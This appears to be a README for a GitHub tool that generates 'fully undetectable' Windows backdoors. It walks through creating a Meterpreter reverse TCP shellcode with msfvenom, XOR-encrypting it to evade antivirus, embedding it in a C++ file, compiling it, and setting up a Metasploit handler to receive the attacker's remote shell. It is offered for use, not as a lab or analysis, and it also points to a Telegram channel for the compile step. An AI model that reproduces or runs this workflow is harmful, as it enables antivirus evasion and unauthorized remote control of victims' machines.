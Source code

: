 # FUD Generator with Python Cipher Encryption 🔐✔
```
sudo git clone https://github.com/PushMeUp97/FUDGeneratorPythonCipher.git
sudo chmod 777 FUDGeneratorPythonCipher
cd FUDGeneratorPythonCipher
```
# Generate Backdoor with ShellCode
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=<YOUR_KALI_IP> LPORT=<YOUR_SERVER_PORT> -f raw -o raw_cipher.txt
```
# Encode the ShellCode with XOR Encryption
```
sudo python xor_encryptor_cipher.py raw_cipher.txt > xor_shellcode.txt
```
# Add the crypted shellcode on main.cpp
Now that you have the encrypted shellcode you need to add it on the main.cpp file just like this:
```
char b[] = /*xor_shellcode*/
```
# Compile the main.cpp file
There is no specific way to do this, all you need to do is compile the C++ code into a windows executable. Here are ways to do that.
```
https://t.me/PushtheScriptX //make sure you have installed in your window pc
```
# Configure the Multi-Handler to catch the reverse connection
```
msfconsole
```
```use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set StageEncoder x86/shikata_ga_nai
set LHOST <YOUR_KALI_IP>
set LPORT <YOUR_SERVER_PORT>
show options
exploit
